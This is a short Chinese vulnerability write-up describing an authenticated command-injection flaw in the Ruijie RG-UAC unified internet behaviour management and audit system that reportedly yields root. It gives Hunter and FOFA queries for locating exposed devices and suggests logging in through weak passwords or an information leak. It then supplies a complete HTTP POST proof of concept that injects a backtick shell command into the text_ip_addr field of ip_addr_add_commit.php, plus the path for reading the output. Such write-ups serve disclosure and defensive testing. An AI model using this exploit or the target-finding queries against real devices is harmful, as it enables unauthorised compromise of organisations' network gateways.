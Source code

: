 # 锐捷RG-UAC统一上网行为管理审计系统ip_addr_add_commit后台命令执行漏洞

# 一、漏洞简介
锐捷RG-UAC统一上网行为管理审计系统存在命令执行漏洞,可以通过漏洞获取root权限 。

# 二、影响版本
+ 锐捷RG-UAC统一上网行为管理审计系统

# 三、资产测绘
+ hunter`app.name="Ruijie 锐捷 RG-UAC"`
+ fofoa:`app="Ruijie-RG-UAC"`

登录页

![1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c.png](./img/MjJVTdoURakqdq8S/1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c-593129.png)

# 四、漏洞复现
使用弱口令/敏感信息泄露漏洞登录系统后台

![1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5.png](./img/MjJVTdoURakqdq8S/1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5-993540.png)

获取Cookie后使用下面poc

```plain
POST /view/networkConfig/IPConfig/ip_addr_add_commit.php HTTP/1.1
Host: 
Cookie: PHPSESSID=ae63a240e1fdfb5614107040d19120f3
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 49

text_ip_addr=`ls+>1.txt`&convert_mask=1&ethname=1
```

![1714986202461-e530da3e-9b79-43be-8e4c-805a91ed6016.png](./img/MjJVTdoURakqdq8S/1714986202461-e530da3e-9b79-43be-8e4c-805a91ed6016-785612.png)

```plain
/view/networkConfig/IPConfig/1.txt
```

![1714986238647-4c29726d-77d6-47f4-9a8c-fc144f5ca2dd.png](./img/MjJVTdoURakqdq8S/1714986238647-4c29726d-77d6-47f4-9a8c-fc144f5ca2dd-853295.png)



> 更新: 2024-06-24 11:42:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rwv0bwp1olbcnfw4>